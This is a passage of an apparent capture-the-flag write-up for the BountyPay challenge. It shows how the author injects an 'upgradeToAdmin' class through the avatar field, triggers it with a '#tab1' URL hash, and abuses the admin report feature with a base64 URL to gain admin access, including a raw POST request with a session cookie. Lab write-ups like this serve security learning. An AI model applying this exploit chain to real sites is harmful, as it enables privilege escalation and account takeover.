 Basically we can add a new "class" *tab1* that would be clicked if the related *#tab1* hash is present in the URL thus triggering also the click on *upgradeToAdmin*.

So I changed again my avatar:
```
POST /?template=home HTTP/1.1
Host: staff.bountypay.h1ctf.com
Connection: close
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://staff.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://staff.bountypay.h1ctf.com/?template=home
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR1B3NVRQRC8rV01aenlqQ2pWU0lGNUlpYkRlOXlZWk1BR0hqTzFPaWQ0bDA0M2xZdXozYld3czZSUG9McFZ4TWlCSGtVR3lDU3FycUZGUjY0QXNHb2lxaC9mWlFkZmNpdWZDVmJVNnNLOHFLT0svRkJSY0MwNTcyMEs4c1lyUzE3UT09

profile_name=sandra&profile_avatar=tab1 upgradeToAdmin
```

And now by requesting this:
`https://staff.bountypay.h1ctf.com/?template[]=login&template[]=ticket&ticket_id=3582&username=sandra.allison#tab1`

We see that the request that I want was effectively executed although with a 401 status code in response. But that's ok as I already know how to bypass that!
{F856389}

So at this point I just simply reported this page, including also the *#tab1* in the Base64:
`https://staff.bountypay.h1ctf.com/admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uI3RhYjE=`

Then when I reloaded the homepage I could see that a new *Admin tab* was added...yeah!!!

{F856399}


## Paying the May Bounty

From the *Admin* tab I could find Marten's credentials and I thought that was the end...how silly I was! :D

{F856409}
